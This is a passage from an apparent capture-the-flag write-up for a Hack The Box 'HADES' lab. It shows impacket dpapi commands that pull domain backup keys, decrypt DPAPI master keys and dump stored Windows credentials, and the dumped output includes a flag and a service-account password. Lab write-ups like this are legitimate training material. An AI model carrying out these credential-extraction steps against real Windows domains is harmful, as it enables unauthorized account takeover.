

Nevertheless closing this small parenthesis, we have the this incognito and now we should be able to decrypt the master key with something similar:

```Bash
# (not tested) Decrypt a master key
dpapi.py masterkey -file "/path/to/masterkey_file" -sid $USER_SID -password $MASTERKEY_PASSWORD

# (not tested) Obtain the backup keys & use it to decrypt a master key
dpapi.py backupkeys -t $DOMAIN/$USER:$PASSWORD@$TARGET
dpapi.py masterkey -file "/path/to/masterkey_file" -pvk "/path/to/backup_key.pvk"

# (not tested) Decrypt DPAPI-protected data using a master key
dpapi.py credential -file "/path/to/protected_file" -key $MASTERKEY
```



And lastly using the decripted key(outputted in last line) we can use that to decrypt secrets with something similar:


And doing so we found a new account and third flag

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# impacket-dpapi credential -file 1A2572C793495F694F64823A392D4718 -key "0xe0b92cbfbeab126231d979377ffd236b2ebd4b0704e2e9229d3ce82bebd144173b9f7160315d5af62289fae50a1fd465100aaf36748b68557e2b05edc25ac4fe"
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[CREDENTIAL]
LastWritten : 2019-09-09 10:08:32
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=flag
Description : 
Unknown     : 
Username    : flag
Unknown     : HADES{V5C_r3ve4L_DPaP1_s3cret5}

                                                                                                                                                              
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# impacket-dpapi credential -file 4A2EEB30EFC7958491B6578D9948EC7F -key "0xe0b92cbfbeab126231d979377ffd236b2ebd4b0704e2e9229d3ce82bebd144173b9f7160315d5af62289fae50a1fd465100aaf36748b68557e2b05edc25ac4fe" 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[CREDENTIAL]
LastWritten : 2019-09-09 10:07:12
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=web
Description : 
Unknown     : 
Username    : htb.local\test-svc
Unknown     : T3st-S3v!ce-F0r-Pr0d
```

I guess we can back to DC and use the new credentials to run Sharphound again and see what can we get more.